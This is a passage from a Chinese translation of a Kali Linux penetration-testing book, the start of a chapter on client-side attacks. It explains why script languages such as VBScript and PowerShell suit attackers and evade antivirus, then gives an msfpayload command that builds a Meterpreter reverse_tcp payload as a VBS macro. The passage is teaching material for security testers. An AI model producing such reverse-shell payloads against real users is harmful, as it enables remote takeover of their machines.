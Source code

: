 # 第 11 章客户端开发

对于攻击者或有效的渗透测试人员来说，最大的挑战是绕过目标的安全控制以实现妥协。当目标系统位于网络上时，这可能很困难，因为攻击者通常需要绕过防火墙、代理、入侵检测系统和纵深防御体系结构的其他元素。

一个成功的变通策略是直接针对客户端应用程序。用户发起与客户端应用程序的交互，允许攻击者利用用户和应用程序之间存在的现有信任。使用社会工程方法将提高客户端攻击的成功率。

客户端攻击目标系统通常缺乏企业系统上的安全控制（特别是防火墙和入侵检测系统）。如果这些攻击成功并建立了持久通信，则如果客户端设备重新连接到目标网络，则可以使用客户端设备发起攻击。

在本章结束时，您将了解如何使用以下方法攻击客户端应用程序：

*   恶意脚本攻击（VBScript 和 PowerShell）
*   跨站点脚本框架
*   浏览器开发框架

# 使用恶意脚本攻击系统

开发了客户端脚本，如 JavaScript、VBScript 和 PowerShell，以将应用程序逻辑和操作从服务器移动到客户端计算机。从攻击者或测试人员的角度来看，使用这些脚本有以下几个优点：

*   它们已经是目标公司自然运行环境的一部分；攻击者不必将大型编译器或其他辅助文件（如加密应用程序）传输到目标系统。
*   脚本语言旨在促进计算机操作，如配置管理和系统管理。例如，它们可用于发现和更改系统配置、访问注册表、执行程序、访问网络服务和数据库，以及通过 HTTP 或电子邮件移动二进制文件。这样的标准脚本化操作可以很容易地被测试人员采用。
*   由于它们是操作系统环境固有的，因此通常不会触发防病毒警报。
*   它们很容易使用，因为编写脚本需要一个简单的文本编辑器。使用脚本发动攻击没有任何障碍。

从历史上看，JavaScript 是发动攻击的首选脚本语言，因为它在大多数目标系统上广泛可用。由于 JavaScript 攻击已经得到了很好的描述，我们将重点介绍 Kali 如何使用更新的脚本语言（VBScript 和 PowerShell）来促进攻击。

## 使用 VBScript 进行攻击

**Visual Basic 脚本版本**（**VBScript）**是微软开发的一种**主动脚本语言**。它被设计成一种轻量级的 Windows 本机语言，可以执行小程序。自 Windows 98 以来，Microsoft Windows 的每个桌面版本都默认安装了 VBScript，使其成为客户端攻击的最佳目标。

要使用 VBScript 发起攻击，我们将从命令行调用 Metasploit 的`msfpayload`：

```
root@kali:~# msfpayload windows/meterpreter/reverse_tcp
  LHOST=[Your local Host] LPORT= [Your Local Port] V 

```

注意，`V`指定输出为 VBS 宏脚本。输出将显示为包含两个特定部分的文本文件，如以下屏幕截图所示：

![Conducting attacks using VBScript](img/3121OS_11_01.jpg)
